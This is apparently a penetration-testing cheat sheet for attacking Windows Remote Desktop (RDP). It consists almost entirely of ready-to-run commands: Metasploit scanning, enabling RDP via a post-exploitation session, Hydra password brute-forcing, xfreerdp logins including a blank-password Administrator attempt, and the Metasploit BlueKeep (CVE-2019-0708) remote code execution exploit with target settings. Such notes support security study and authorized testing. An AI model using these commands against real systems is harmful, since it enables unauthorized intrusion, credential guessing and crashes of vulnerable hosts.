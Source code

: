 # RDP

**RDP (Remote Desktop Protocol)**
**Description**: RDP (Remote Desktop Protocol) allows remote graphical access to Windows systems
**Ports**: TCP 3389
**Known Vulnerabilities**: Weak credentials, BlueKeep vulnerability (CVE-2019-0708)

# Check and Enable RDP

```shell
use auxiliary/scanner/rdp/rdp_scanner # Check for exposed RDP services

# Enabling the RDP service using windows post exploitation module
use post/windows/manage/enable_rdp
set SESSION <session_number>
```

# Brute-force

```shell
hydra -L <user_wordlists> -P <password_wordlists> rdp://<target_IP>:<port>
hydra -L <user_wordlists> -P <password_wordlists> rdp://<target_IP>:<port> -s <port> # Use -s if port ≠ 3389
```

# Accessing RDP

```shell
xfreerdp /u:<username> /p:<password> /v:<target_IP>:<port>
# Initiates a Remote Desktop Protocol (RDP) session to the target using provided credentials.
# Useful for accessing Windows systems with RDP enabled.

xfreerdp /v:<target_IP> /u:Administrator /cert:ignore
# This command connects to the Remote Desktop Protocol (RDP) service on the target using the username Administrator with a blank password, while ignoring any certificate warnings.
```

# BlueKeep (CVE-2019-0708)

```shell
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
# Scans for systems vulnerable to BlueKeep (CVE-2019-0708), a critical RDP remote code execution flaw.
# Affects unpatched Windows XP to Windows 7 and Windows Server 2003 to 2008 R2.

use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
# Exploits the BlueKeep vulnerability (CVE-2019-0708) to achieve remote code execution via RDP.
# Targets unpatched Windows XP, 7, Server 2003, and 2008 (without Network Level Authentication).
# WARNING: This exploit is unstable and may crash the target system.
set RHOSTS <target_IP>
set target 2 # Windows 7 SP1 / 2008 R2 (x64, VirtualBox 6)
run
```
